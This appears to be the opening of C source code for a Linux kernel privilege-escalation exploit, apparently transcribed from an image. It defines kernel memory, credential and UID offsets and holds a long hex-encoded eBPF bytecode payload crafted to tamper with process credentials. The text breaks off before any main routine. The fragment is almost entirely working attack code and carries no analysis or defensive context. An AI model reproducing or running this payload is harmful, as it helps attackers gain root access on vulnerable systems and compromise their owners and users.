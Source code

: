     #define PHYS_OFFSET 0xffff880000000000
    #define CRED_OFFSET 0x5f8
    #define UID_OFFSET 4
    #define LOG_BUF_SIZE 65536
    #define PROGSIZE 328
    
    int sockets[2];
    int mapfd, progfd;
    
    char *__prog = 	"\xb4\x09\x00\x00\xff\xff\xff\xff"
    		"\x55\x09\x02\x00\xff\xff\xff\xff"
    		"\xb7\x00\x00\x00\x00\x00\x00\x00"
    		"\x95\x00\x00\x00\x00\x00\x00\x00"
    		"\x18\x19\x00\x00\x03\x00\x00\x00"
    		"\x00\x00\x00\x00\x00\x00\x00\x00"
    		"\xbf\x91\x00\x00\x00\x00\x00\x00"
    		"\xbf\xa2\x00\x00\x00\x00\x00\x00"
    		"\x07\x02\x00\x00\xfc\xff\xff\xff"
    		"\x62\x0a\xfc\xff\x00\x00\x00\x00"
    		"\x85\x00\x00\x00\x01\x00\x00\x00"
    		"\x55\x00\x01\x00\x00\x00\x00\x00"
    		"\x95\x00\x00\x00\x00\x00\x00\x00"
    		"\x79\x06\x00\x00\x00\x00\x00\x00"
    		"\xbf\x91\x00\x00\x00\x00\x00\x00"
    		"\xbf\xa2\x00\x00\x00\x00\x00\x00"
    		"\x07\x02\x00\x00\xfc\xff\xff\xff"
    		"\x62\x0a\xfc\xff\x01\x00\x00\x00"
    		"\x85\x00\x00\x00\x01\x00\x00\x00"
    		"\x55\x00\x01\x00\x00\x00\x00\x00"
    		"\x95\x00\x00\x00\x00\x00\x00\x00"
    		"\x79\x07\x00\x00\x00\x00\x00\x00"
    		"\xbf\x91\x00\x00\x00\x00\x00\x00"
    		"\xbf\xa2\x00\x00\x00\x00\x00\x00"
    		"\x07\x02\x00\x00\xfc\xff\xff\xff"
    		"\x62\x0a\xfc\xff\x02\x00\x00\x00"
    		"\x85\x00\x00\x00\x01\x00\x00\x00"
    		"\x55\x00\x01\x00\x00\x00\x00\x00"
    		"\x95\x00\x00\x00\x00\x00\x00\x00"
    		"\x79\x08\x00\x00\x00\x00\x00\x00"
    		"\xbf\x02\x00\x00\x00\x00\x00\x00"
    		"\xb7\x00\x00\x00\x00\x00\x00\x00"
    		"\x55\x06\x03\x00\x00\x00\x00\x00"
    		"\x79\x73\x00\x00\x00\x00\x00\x00"
    		"\x7b\x32\x00\x00\x00\x00\x00\x00"
    		"\x95\x00\x00\x00\x00\x00\x00\x00"
    		"\x55\x06\x02\x00\x01\x00\x00\x00"
    		"\x7b\xa2\x00\x00\x00\x00\x00\x00"
    		"\x95\x00\x00\x00\x00\x00\x00\x00"
    		"\x7b\x87\x00\x00\x00\x00\x00\x00"
    		"\x95\x00\x00\x00\x00\x00\x00\x00";
    
    char bpf_log_buf[LOG_BUF_SIZE];
    